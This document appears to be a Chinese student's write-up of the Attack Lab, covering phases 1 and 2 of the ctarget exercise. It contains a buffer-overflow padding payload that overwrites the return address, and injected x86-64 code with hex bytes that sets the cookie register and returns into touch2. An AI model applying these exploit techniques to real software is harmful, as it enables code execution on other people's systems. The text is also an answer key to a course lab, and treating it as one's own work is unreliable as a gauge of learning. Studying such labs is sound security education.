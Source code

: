 ```cpp
34
12
(从下往上地址值变大)
所以一个可行的值是
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00
```

```shell
echo 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 > tmp
cat tmp | ./hex2raw | ./ctarget -q
```
level1 完成


# phase2 (4.2)
```cpp
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n",val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n",val);
        fail2(2);
    }
    exit(0);
}
```
需要通过getbuf调用touch2函数并 使touch2函数的传入参数是 cookie

•您将希望以这样一种方式定位注入代码地址的字节表示，即getbuf代码末尾的ret指令将把控制权转移给它。

•回想一下，函数的第一个参数是在寄存器%rdi中传递的。

•您注入的代码应将寄存器设置为cookie，然后使用ret指令将控制权转移到touch2中的第一条指令。

•不要试图在利用漏洞的代码中使用jmp或调用指令。这些指令的目的地地址编码很难制定。使用ret指令进行所有控制权转移，即使您没有从呼叫返回。

•请参阅附录B中关于如何使用工具生成指令序列的字节级表示的讨论。
```cpp
//解题过程
需要让0x202ce2(%rip)  和  edi值相等
%rip程序计数器的值是下一条指令的地址(0x401802)
可以在缓冲区插入代码，代码执行完后调用touch2函数
插入的代码如下

mov $0x202ce2, %edi
add $0x401802, %edi
mov (%edi), %edi
push $0x4017ec
ret

对应的十六进制:
bf e2 2c 20 00
81 c7 02 18 40 00
67 8b 3f
68 ec 17 40 00
c3

```